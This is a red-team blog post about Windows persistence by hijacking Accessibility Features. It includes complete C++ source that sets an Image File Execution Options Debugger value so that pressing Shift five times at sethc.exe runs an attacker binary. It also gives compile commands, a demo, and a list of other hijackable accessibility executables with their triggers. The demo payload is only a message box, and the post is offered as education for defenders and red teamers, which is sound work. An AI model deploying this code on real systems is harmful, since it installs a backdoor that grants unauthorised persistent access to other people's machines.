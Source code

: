 ```yaml
---
title:  "Malware development: persistence - part 12. Accessibility Features. Simple C++ example."
date:   2022-09-30 03:00:00 +0300
header:
  teaser: "/assets/images/72/2022-09-30_17-48.png"
categories:
  - malware
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!     

![pers](/assets/images/72/2022-09-30_17-48.png){:class="img-responsive"}    

This post is the result of self-researching another admin-level malware persistence trick: via Accessibility Features.    

In the one of the [previous](/malware/2022/09/10/malware-pers-10.html) posts, I wrote about persistence via Image File Execution Options. In the one of the PoC examples, we just created a debugger to a victim process in this registry key:

`HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\mspaint.exe`

then only requires the malicious application to be stored in `System32`.    

### practical example. sethc.exe

Today I just replace our victim process with `sethc.exe`. But what is `sethc.exe`? It appears it is responsible for sticky keys. Pressing the `Shift` key `5` times will enable the sticky keys:    

![pers](/assets/images/72/2022-09-30_17-26.png){:class="img-responsive"}    

Instead of the legitimate `sethc.exe`, "the rogue sethc.exe" , as usually for simplicity it is a meow messagebox, will be executed. The source code is pretty similar (`pers.cpp`):     

```cpp
/*
pers.cpp
windows persistence via Accessibility Features
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/30/malware-pers-12.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // image file
  const char* img = "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options\\sethc.exe";

  // evil app
  const char* exe = "C:\\Windows\\System32\\hack.exe";

  // Debugger
  LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)img, 0, NULL, REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    // reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /d "hack.exe"
    RegSetValueEx(hkey, (LPCSTR)"Debugger", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

Meow-meow messagebox:    

```cpp
/*
hack.cpp
evil app for windows persistence
via Accessibility Features
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/30/malware-pers-12.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

### demo

Let's go to see everything in action. Check registry keys before:    

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options" /s
```

![pers](/assets/images/72/2022-09-30_17-32.png){:class="img-responsive"}    

Then, compile our `pers.cpp`:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/72/2022-09-30_17-40.png){:class="img-responsive"}    

Run and check registry keys again:    

> **You need to have administrative privileges to replace the genuine Windows binary of the tool**

```powershell
.\pers.exe
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options" /s
```

![pers](/assets/images/72/2022-09-30_17-44.png){:class="img-responsive"}    

Finally, pressing `Shift` key `5` times:     

![pers](/assets/images/72/2022-09-30_17-46.png){:class="img-responsive"}    

Note to the properties of the `hack.exe`:     

![pers](/assets/images/72/2022-09-30_17-47.png){:class="img-responsive"}    

![pers](/assets/images/72/2022-09-30_17-47_1.png){:class="img-responsive"}    

Perfect! =^..^=    

### conclusion

The Windows Accessibility Features are a collection of utilities accessible via the Windows sign-in screen (like Sticky Keys). Some Accessibility features and their corresponding trigger choices and locations include:    

**1. Utility Manager**     
- `C:\Windows\System32\Utilman.exe`     
- Trigger: `Windows key + U`      

**2. On-Screen Keyboard**     
- `C:\Windows\System32\osk.exe`      
- Trigger: Click on On-screen keyboard button     

**3. Magnifier**   
- `C:\Windows\System32\Magnify.exe`     
- Trigger: `Windows Key + =`        

**4. Narrator**       
- `C:\Windows\System32\Narrator.exe`    
- Trigger: `Windows Key + Enter`    

**5. Display Switcher**     
- `C:\Windows\System32\DisplaySwitch.exe`    
- Trigger: `Windows Key + P`    

These Windows capabilities became well-known when the APT groups exploited them to backdoor target PCs. For example, [APT3](https://attack.mitre.org/groups/G0022/), [APT29](https://attack.mitre.org/groups/G0016/) and [APT41](https://attack.mitre.org/groups/G0096/) used sticky keys.     

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.      

[MITRE ATT&CK. Event Triggered Execution: Accessibility Features](https://attack.mitre.org/techniques/T1546/008/)    
[APT3](https://attack.mitre.org/groups/G0022/)      
[APT29](https://attack.mitre.org/groups/G0016/)     
[APT41](https://attack.mitre.org/groups/G0096/)     
[source code in github](https://github.com/cocomelonc/2022-09-30-malware-pers-12)      

> This is a practical case for educational purposes only.      

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
